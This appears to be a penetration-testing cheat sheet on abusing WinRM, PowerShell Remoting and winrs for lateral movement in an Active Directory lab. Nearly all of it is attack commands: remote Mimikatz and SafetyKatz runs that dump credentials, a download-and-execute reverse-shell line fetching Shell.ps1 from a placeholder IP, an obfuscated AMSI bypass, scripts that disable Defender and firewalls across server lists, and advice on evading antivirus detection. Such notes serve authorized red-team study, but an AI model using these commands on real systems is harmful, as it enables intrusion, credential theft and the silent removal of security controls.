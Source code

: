 # WinRM

WinRM stands for Windows Remote Management that allows to perform management tasks on systems remotely, WinRM is available if the port is opened.

WinRM Ports:

* **5985/tcp (HTTP)**
* **5986/tcp (HTTPS)**

Use [PSReadline ](https://github.com/PowerShell/PSReadLine)script to store commands from PowerShell into a clear-text file.

## Enumeration

Find machines with PS Session

[#user-hunting](../ad-enumeration/gnereral.md#user-hunting "mention")

## PS Session

{% hint style="info" %}
PSRemoting uses Windows Remote Management (WinRM) which is Microsoft's implementation of WS-Management.
{% endhint %}

Enable PowerShell Remoting on local system (Requires elevated privileges)

```powershell
Enable-PSRemoting
```

#### Create a session

```powershell
$sess = New-PSSession -Computername dcorp-adminsrv.dollarcorp.moneycorp.local
```

#### Enter existing session

```powershell
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local

# Using session object
Enter-PSSession -Session $sess
```

## Invoke-Command

<pre class="language-powershell"><code class="lang-powershell"># test remoting connection
Invoke-Command -Session $Session -FilePath 'C:\Tools\Invoke-Mimikatz.ps1'
Invoke-Command -Computername Srv01.Security.local -ScriptBlock {Whoami;Hostname}

# Run locally loaded functions on target system
Invoke-Command -Computername Srv01.Security.local -ScriptBlock ${Function:Test-Function}
Invoke-Command -Session $Session -FilePath -ScriptBlock ${Function:Test-Function}

# Load script
Invoke-Command -FilePath 'C:\Tools\Invoke-Mimikatz.ps1' -Session $Session
<strong>Invoke-Command -Computername Srv01.Security.local -FilePath 'C:\Tools\Invoke-Mimikatz.ps1'
</strong>
<strong># Multiple connections
</strong><strong>Invoke-Command -Scriptblock {Get-Process} -ComputerName (Get-Content &#x3C;list_of_servers>) 
</strong></code></pre>

#### Useful script blocks

```powershell
# Language Mode
Invoke-Command -ComputerName <target> -ScriptBlock {$ExecutionContext.SessionState.LanguageMode}

# Reverse shell
Invoke-Command -ComputerName Srv01.Security.local -ScriptBlock {cmd /c "powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://<IP>/Shell.ps1')"}

#Bypass AMSI
Invoke-Command -session $Session -ScriptBlock {sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )}

# Turns off all firewall profiles
Invoke-Command -ComputerName Srv02.Security.local -ScriptBlock {Set-NetFirewallProfile -Profile "Domain","Public","Private" -Enabled "False"}

# Turns off Defender and Firewall on multiple systems
Invoke-Command -ScriptBlock {Set-MpPreference -DisableRealtimeMonitoring $true;`
Set-MpPreference -DisableIOAVProtection $true;`
Set-MPPreference -DisableBehaviorMonitoring $true;`
Set-MPPreference -DisableBlockAtFirstSeen $true;`
Set-MPPreference -DisableEmailScanning $true;`
Set-MPPReference -DisableScriptScanning $true;`
Set-MpPreference -DisableIOAVProtection $true;`
Add-MpPreference -ExclusionPath "C:\Windows\Temp";`
Set-NetFirewallProfile -Profile "Domain","Public","Private" -Enabled "False"}`
-ComputerName (Get-Content c:\Serverlist.txt)
```

## Winrs

```powershell
winrs -r:dcorp-mgmt 'whoami & hostname'
winrs -r:server1 -u:server1\administrator -p:Pass@1234 'hostname' # With creds
```

To run any APT tools to the victim machines. It's advised not to store the file as it will be detected by the ASMI. Directly load it into the memory to run it.

```powershell
# Will be detected by ASMI
winrs -r:dcorp-mgmt "cmd /c <remote_file_path> -path HTTP://<ip>/SafetyKatz.exe sekurlsa::evasive-keys exit"
```

Check [transfer-files.md](../misc/transfer-files.md "mention") to get to know more about transfering the files. Use winrs like below to evade ASMI.

```powershell
# Setup proxy
$null | winrs -r:dcorp-mgmt “netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.1”
# Transfer files
$null | winrs -r:dcorp-mgmt “cmd /c <path_to_store> -path HTTP://<ip>/SafetyKatz.exe sekurlsa::evasive-keys exit”
```
